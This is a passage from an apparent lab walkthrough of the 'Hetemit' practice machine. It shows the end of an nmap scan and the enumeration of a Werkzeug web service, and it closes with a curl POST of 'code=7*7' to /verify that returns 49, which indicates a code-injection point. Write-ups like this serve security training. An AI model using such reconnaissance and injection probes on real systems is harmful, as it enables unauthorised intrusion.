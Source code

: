 ```
SF:color:\x20#333;\n\x20\x20\x20\x20\x20\x20margin:\x200px;\n\x20\x20\x20\
SF:x20}\n\n\x20\x20\x20\x20body,\x20p,\x20ol,\x20ul,\x20td\x20{\n\x20\x20\
SF:x20\x20\x20\x20font-family:\x20helvetica,\x20verdana,\x20arial,\x20sans
SF:\x20#F0F0F0;\n\x20\x20\x20\x20\x20\x20background:\x20#C52F24;\n\x20\x20
SF:\x20\x20\x20\x20padding:\x200\.5em\x201\.5em;\n\x20\x20\x20\x20}\n\n\x2
SF:0\x20\x20\x20h1\x20{\n\x20\x20\x20\x20\x20\x20margin:\x200\.2em\x200;\n
SF:\x20\x20\x20\x20\x20\x20line-height:\x201\.1em;\n\x20\x20\x20\x20\x20\x
SF:20font-size:\x202em;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20h2\x20{\n\x2
SF:0\x20\x20\x20\x20\x20color:\x20#C52F24;\n\x20\x20\x20\x20\x20\x20line-h
SF:eight:\x2025px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20\.details\x20{\n\
SF:x20\x20\x20\x20\x20\x20bord");
Service Info: OS: Unix

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-12-30T05:00:04
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 30 06:00:44 2022 -- 1 IP address (1 host up) scanned in 59.47 seconds
```

Now we got the services available, Enumerating port 50000 http Werkzeug.

![image](https://user-images.githubusercontent.com/87468669/210036565-0d76a7db-344b-4276-af4c-376288a0aaa3.png)

cool we got 2 dirs, let's check em out.

![image](https://user-images.githubusercontent.com/87468669/210036693-6b7ef6ad-89ed-4188-a452-0c2d577c345a.png)

the first dir did not give anything interesting. we got a response from /verify returning code. let's use curl to change the request method.

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Hetemit]
└─$ curl -v http://192.168.108.117:50000/verify -X POST -d "code=7*7"
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 192.168.108.117:50000...
* Connected to 192.168.108.117 (192.168.108.117) port 50000 (#0)
> POST /verify HTTP/1.1
> Host: 192.168.108.117:50000
> User-Agent: curl/7.85.0
> Accept: */*
> Content-Length: 8
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 2
< Server: Werkzeug/1.0.1 Python/3.6.8
< Date: Fri, 30 Dec 2022 05:09:35 GMT
< 
* Closing connection 0
49                       
```
